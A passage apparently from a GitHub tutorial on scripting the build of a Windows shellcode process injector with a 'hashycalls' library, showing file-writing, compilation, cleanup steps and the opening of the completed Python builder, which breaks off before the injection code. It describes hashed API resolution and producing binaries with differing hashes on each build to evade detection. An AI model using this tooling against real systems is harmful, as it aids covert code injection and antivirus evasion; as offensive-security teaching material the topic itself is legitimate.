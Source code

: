 ## Step 5; Writing all files to disk
We'll need to write each file to disk in a location where the compilation script can access it. This demonstration will use the current working directory of the script to deposit each file prior to compilation.

```py
    hashy.source.write_to_dir('.')
    hashy.header.write_to_dir('.')
    with open('main.c', 'w') as file:
        file.write(main_source)
    with open('compile.bat', 'w') as file:
        file.write(compiler)
```

## Step 5; Compiling the script
Now we need to compile the script. We can do this by launching the batch file with the subprocess module.

```py
subprocess.run(['cmd.exe', '/c', 'compile.bat'])
```

## Step 6; Cleaning up the temp files
To avoid having leftover ephemeral files on the system, a cleanup section has been added to remove them.

```py
    os.remove(hashy.source.filename)
    os.remove(hashy.header.filename)
    os.remove('hashycalls.obj')
    os.remove('compile.bat')
    os.remove('main.c')
    os.remove('main.obj')
```


# Completed Script
This is the completed script. This script will compile an injector which targets the process specified by the user. This could be extended further to allow the user to change / encrypt the shellcode or perform other operations however this is out of scope for this tutorial. Each time the script is run, a binary will be produced with differing hashes from the previous binary.

```py
import argparse
import random
import subprocess
import os
from hashycalls import HashyCalls

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-o', '--outfile', help='A name for the compiled executable.', default='skynet.exe')
    parser.add_argument('-t', '--target', help='A target process name to inject to. (case sensitive)', default='notepad.exe')
    parser.add_argument('-a', '--algo', help='A hashing algorithm for dynamic api resolution', choices=['djb2', 'sdbm'], default='djb2')
    args = parser.parse_args()

    main_source = """# include <windows.h>
# include <tlhelp32.h>
# include "hashycalls.h"

# define TARGET_PROCESS L"%s"
```